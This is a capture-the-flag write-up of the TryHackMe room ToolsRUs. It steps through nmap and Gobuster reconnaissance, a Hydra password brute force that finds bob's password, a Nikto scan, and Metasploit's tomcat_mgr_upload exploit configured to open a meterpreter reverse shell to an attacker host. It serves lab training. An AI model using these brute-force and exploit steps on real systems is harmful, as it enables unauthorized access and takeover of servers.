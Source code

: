 ```yaml
---
description: A write-up for TryHackMe Room ToolsRUs
---
```


# ToolsRUs



<div data-full-width="false"><figure><img src="../.gitbook/assets/image (5).png" alt="" width="375"><figcaption></figcaption></figure></div>



### Recon

#### Nmap

Like any other room we'll start with a simple **nmap** scan.

```
nmap -sS -Pn toolsrus.thm
```

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### Enumeration

Lets enumerate a little more using nmap again to find out more about what's running on those ports.

```
nmap -sV -sC -p80,1234,8009,22 toolsrus.thm
```

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

From our nmap scan we can see 4 ports open, 22 for **SSH,** 80 for **HTTP** (Webserver), 1234 for **Apache TomCat**, and 8009 for **ajp13**.&#x20;

Lets check out the website and see if we can find anything there.

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

#### Gobuster

All we get is a header hinting that there may be other subdomains that are up.

Lets do a Gobuster directory bruteforce to find them.

```
gobuster dir -u http://toolsrus.thm -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,git,env,sql,zip,tgz,pem,key -t 400

```

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

You can see we get a lot of results with **Status: 403** meaning we don't have access to them except for **/guidelines** which is also the answer to our first flag.

```
Hey <b>bob</b>, did you update that TomCat server?
```

Visiting **http://toolsrus.thm/guidelines** we find which is the answer to our second flag asking us whose name we find and it is **bob**.

For our 3rd flag we can take a look at the only webpage with a **Status: 401** meaning its: **protected**.

### Bruteforcing

#### Hydra

Taking a look at that protected page I think we can use hydra here. After some research this is the command we have to use.

```
hydra -f -vV -l bob -P /usr/share/wordlists/rockyou.txt $toolsrus.thm http-get /protected
```

\
After 5 seconds and CPU utilization peaking at a whooping 20% we get our password **bubbles**.

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

After getting into **/protected** we find that the page has moved to another port, after trying a couple times, **1234** is what worked.

Here we find **Apache Tomcat/7.0.88.**

Lets run Gobuster again but on this port.

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

#### Nikto

Now lets use Nikto.

```
nikto -host http://toolsrus.thm:1234/manager/html
```

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

As you can see the server is using **Apache/Coyote/1.1** and there's **5** documentations found by Nikto which is more than enough to find an exploit with Metasploit.

### Privilege Escalation

#### Metasploit

```
msf console
search tomcat type:exploit
```

I used Metasploit to look for an exploit and after doing some [research](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote#Uploading_Java_Executable_with_Metasploit) online we need to use **tomcat\_mgr\_upload**.

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

```
exploit/multi/http/tomcat_mgr_upload
info
```

We can use these 2 commands to select the exploit and understand the payload.

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Let's set up the arguments we need.

```
set RHOSTS <YOUR_TARGET_IP>
set RPORT 1234
set HttpUsername bob
set HttpPassword bubbles
set LHOST <YOUR_ATTACKER_IP>
set LPORT 5771
set TARGET 0
```

Since it's an Apache server we need to set our target to 0 for Java.

Nice! Now we have a meterpreter reverse shell running let's see who we are and our permissions and get our flag!

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

### Conclusion

Overall this was a super fun room to do and wasn't much of a challenge the Nikto search took awhile but I just went and made some coffee while it did it's thing.

